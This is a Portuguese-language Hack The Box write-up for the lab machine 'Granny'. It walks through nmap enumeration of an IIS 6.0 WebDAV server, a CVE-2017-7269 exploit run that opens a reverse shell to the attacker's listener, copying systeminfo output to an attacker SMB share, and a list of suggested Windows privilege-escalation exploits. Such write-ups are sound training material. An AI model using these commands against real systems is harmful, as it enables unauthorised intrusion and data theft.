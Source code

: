 ```yaml
---
title:     "Hack The Box -Granny"
tags: [windows,easy]
categories: HackTheBox
---
```


![1.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-granny/1.jpg)

## Enumeration

Iniciamos nossa maquina usando o nmap para enumeracao inicial

```
root@kali:~/HTB-Windows/granny# nmap -Pn -p- -oN nmap/allports_tcp 10.10.10.15
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-24 13:39 EDT
Stats: 0:07:25 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 99.87% done; ETC: 13:47 (0:00:01 remaining)
Nmap scan report for 10.10.10.15
Host is up (0.20s latency).
Not shown: 65534 filtered ports
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 446.75 seconds
```

wowww apenas uma porta aberta ,,,,, 


```
root@kali:~/HTB-Windows/granny# nmap -sC -sV -p80 -oN nmap/scripts_default 10.10.10.15
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-24 13:49 EDT
Nmap scan report for 10.10.10.15
Host is up (0.19s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Server Date: Wed, 24 Jun 2020 17:52:36 GMT
|   Server Type: Microsoft-IIS/6.0
|   WebDAV type: Unknown
|_  Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.30 seconds
```

A versao do webserver **(Microsoft IIS httpd 6.0)** eh bem antiga, alem disso no webdav temos diversos metodos habilitados **(|_  Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK)**

Vamos continuar nossa enumeracao... Existe projeto bem interessante que desenvolveu um script bem interessante para buscar vulns usando o proprio nmap

**reference** https://medium.com/@alexander.tyutin/continuous-vulnerability-scanning-with-nmap-ea8821d587b0


```
root@kali:~/HTB-Windows/granny# git clone https://github.com/vulnersCom/nmap-vulners /usr/share/nmap/scripts/vulners
Cloning into '/usr/share/nmap/scripts/vulners'...
remote: Enumerating objects: 6, done.
remote: Counting objects: 100% (6/6), done.
remote: Compressing objects: 100% (6/6), done.
remote: Total 68 (delta 1), reused 0 (delta 0), pack-reused 62
Unpacking objects: 100% (68/68), 427.88 KiB | 550.00 KiB/s, done.
root@kali:~/HTB-Windows/granny# nmap --script-updatedb
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-24 13:56 EDT
NSE: Updating rule database.
NSE: Script Database updated successfully.
Nmap done: 0 IP addresses (0 hosts up) scanned in 0.67 seconds
```

Usando e verificando os resultados obtidos

```
root@kali:~/HTB-Windows/granny# nmap -sV -Pn 10.10.10.15 --script=vulners/vulners.nse -p 80
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-24 14:01 EDT
Nmap scan report for 10.10.10.15
Host is up (0.21s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
|_http-server-header: Microsoft-IIS/6.0
| vulners: 
|   cpe:/a:microsoft:iis:6.0: 
|_      IIS_PHP_AUTH_BYPASS.NASL        7.5     https://vulners.com/nessus/IIS_PHP_AUTH_BYPASS.NASL
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 34.96 seconds
```

Bom, eu particulamente nao achei muito eficiente pra essa maquina.. Mas isso eh normal acontecer.. O recomendado eh voce testar nao so os scripts conhecidos mais outros tambem....

Continuando...

## Find Exploits

Pesquisando por exploit conhecidos no google, encontra rapidamente algumas exploracoes...

![3.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-granny/3.jpg)


## Reverse Shell

Rapidamente conseguimos obter nossa reverse shell

`python iis6CVE-2017-7269.py 10.10.10.15 80 10.10.14.36 53`

![2.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-granny/2.jpg)

## Privilege Escalation

Usando a velha estrategia e funcional ja encontramos alguns vetores

```
root@kali:~/HTB-Windows/granny# rlwrap nc -nlvp 53
listening on [any] 53 ...
connect to [10.10.14.36] from (UNKNOWN) [10.10.10.15] 1032
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>whoami
whoami
nt authority\network service

c:\windows\system32\inetsrv>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAuditPrivilege              Generate security audits                  Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 

c:\windows\system32\inetsrv>
```

Precisamos obter mais informacoes basicas como qual sistema, qual arquitetura, qual versao essas informacoes sao essenciais para continuar com a escalacao de privilegios

`impacket-smbserver tools .`
`systeminfo >> \\10.10.14.36\tools\systeminfo.txt`

![4.jpg](https://raw.githubusercontent.com/an4kein/an4kein.github.io/master/img/htb-granny/4.jpg)

```

Host Name:                 GRANNY
OS Name:                   Microsoft(R) Windows(R) Server 2003, Standard Edition
OS Version:                5.2.3790 Service Pack 2 Build 3790
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Uniprocessor Free
Registered Owner:          HTB
Registered Organization:   HTB
Product ID:                69712-296-0024942-44782
Original Install Date:     4/12/2017, 5:07:40 PM
System Up Time:            0 Days, 0 Hours, 49 Minutes, 58 Seconds
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
```

Como podemos obervar eh um versao do windows SUPER antiga **Microsoft(R) Windows(R) Server 2003, Standard Edition** e tem varios exploits sem duvidas kk

Usando o windows-exploit-suggester.py podemos obter uma lista com sugestoes de exploracao..

```
initiating winsploit version 3.3...
database file detected as xls or xlsx based on extension
attempting to read from the systeminfo input file
systeminfo input file read successfully (ascii)
querying database file for potential vulnerabilities
comparing the 0 hotfix(es) against the 356 potential bulletins(s) with a database of 137 known exploits
there are now 356 remaining vulns
searching for local exploits only
[E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
windows version identified as 'Windows 2003 SP2 32-bit'

MS15-051: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (3057191) - Important
  https://github.com/hfiref0x/CVE-2015-1701, Win32k Elevation of Privilege Vulnerability, PoC
  https://www.exploit-db.com/exploits/37367/ -- Windows ClientCopyImage Win32k Exploit, MSF

MS14-070: Vulnerability in TCP/IP Could Allow Elevation of Privilege (2989935) - Important
  http://www.exploit-db.com/exploits/35936/ -- Microsoft Windows Server 2003 SP2 - Privilege Escalation, PoC

MS14-068: Vulnerability in Kerberos Could Allow Elevation of Privilege (3011780) - Critical
  http://www.exploit-db.com/exploits/35474/ -- Windows Kerberos - Elevation of Privilege (MS14-068), PoC

MS14-062: Vulnerability in Message Queuing Service Could Allow Elevation of Privilege (2993254) - Important
  http://www.exploit-db.com/exploits/34112/ -- Microsoft Windows XP SP3 MQAC.sys - Arbitrary Write Privilege Escalation, PoC
  http://www.exploit-db.com/exploits/34982/ -- Microsoft Bluetooth Personal Area Networking (BthPan.sys) Privilege Escalation

MS14-040: Vulnerability in Ancillary Function Driver (AFD) Could Allow Elevation of Privilege (2975684) - Important
  https://www.exploit-db.com/exploits/39525/ -- Microsoft Windows 7 x64 - afd.sys Privilege Escalation (MS14-040), PoC
  https://www.exploit-db.com/exploits/39446/ -- Microsoft Windows - afd.sys Dangling Pointer Privilege Escalation (MS14-040), PoC

MS14-026: Vulnerability in .NET Framework Could Allow Elevation of Privilege (2958732) - Important
  http://www.exploit-db.com/exploits/35280/, -- .NET Remoting Services Remote Command Execution, PoC

MS14-002: Vulnerability in Windows Kernel Could Allow Elevation of Privilege (2914368) - Important
MS11-080: Vulnerability in Ancillary Function Driver Could Allow Elevation of Privilege (2592799) - Important
MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
MS09-020: Vulnerabilities in Internet Information Services (IIS) Could Allow Elevation of Privilege (970483) - Important
done
```
